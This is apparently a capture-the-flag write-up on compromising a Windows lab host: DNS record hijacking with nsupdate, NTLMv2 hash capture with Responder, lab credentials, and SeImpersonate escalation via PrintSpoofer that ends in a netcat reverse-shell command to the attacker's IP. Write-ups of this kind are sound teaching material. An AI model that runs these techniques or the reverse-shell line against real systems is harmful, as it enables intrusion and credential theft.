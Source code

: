 windows machine, web port is open and had insecure certificate which showed two subdomains
smb shows nothing(need creds)

selfservice.windcorp.thm(http basic auth) and selfservice.dev.windcorp.thm

possible usernames from images: "Emilieje","lilyle" and "kirkug"

selfservice.dev has /backup with a cert(password protected:"ganteng") and config file(404 not found).
fire.windcorp.thm has /powershell that gives web-based control with creds

It's always DNS, check with dnsrecon(didn't work for me:/) and nslookup
and see the txt record, we can modify the records with nsupdate, so we delete selfservice, and 
update it with an A record to our tun0 ip so all requests are made to us(intercepted with responder)
but we need to provide valid certificates to get requests which can be extracted from the cert.pfx file

`openssl pkcs12 -in ~/Downloads/cert.pfx -out selfservice.crt.pem -clcerts -nokeys` \\for crt file 
`openssl pkcs12 -in ~/Downloads/cert.pfx -out selfservice.key.pem -nocerts -nodes`  \\for key file
then specify the files for responder in '/etc/responder/Responder.conf' in SSLCert and SSLKey respectively.

we capture NTLMv2 hash for edwardle, which gives the following creds
`edwardle:!Angelus25!`
logging into /powershell and checking privs we have SeImpersonate Privilege which can be exploited with
sweetpotato and printspoofer.

Sweetpotato didn't work for me properly(maybe some error in compiling the binary?) but getting the binary for
printspoofer worked albeit a bit indirectly, the createuserprocess gave an error, so `spoofer.exe -i -c cmd`
didn't work but the command exected with `-i` omiited, so `spoofer.exe -c "nc.exe -e cmd 10.17.17.11 443" worked

